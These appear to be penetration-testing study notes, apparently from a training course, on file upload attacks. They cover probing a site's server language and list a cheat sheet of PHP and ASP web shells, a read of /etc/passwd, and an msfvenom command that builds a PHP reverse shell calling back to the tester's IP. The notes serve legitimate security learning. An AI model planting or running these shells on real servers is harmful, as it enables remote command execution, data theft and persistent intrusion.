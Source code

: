 # File upload attacks notes

One easy method to determine what language runs the web application is to visit the /index.ext page, where we would swap out ext with various common web extensions, like php, asp, aspx, among others, to see whether any of them exist.

We can use a fuzzer to identify this as well

To test if we can abuse php site with a webshell we can save a file with this to upload:

```
<?php echo "Hello HTB";?>
```

## Cheat Sheets

|Web Shell 	|Description|
|:----|:----|
|\<?php file_get_contents('/etc/passwd'); ?> 	|Basic PHP File Read|
|\<?php system('hostname'); ?> 	|Basic PHP Command Execution|
|\<?php system($_REQUEST['cmd']); ?> |	Basic PHP Web Shell|
|\<% eval request('cmd') %> |	Basic ASP Web Shell|
|msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php 	|Generate PHP reverse shell|
|[PHP Web Shell](https://github.com/Arrexel/phpbash)| 	PHP Web Shell|
|[PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) |	PHP Reverse Shell|
|[Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) |	List of Web Shells and Reverse Shells|
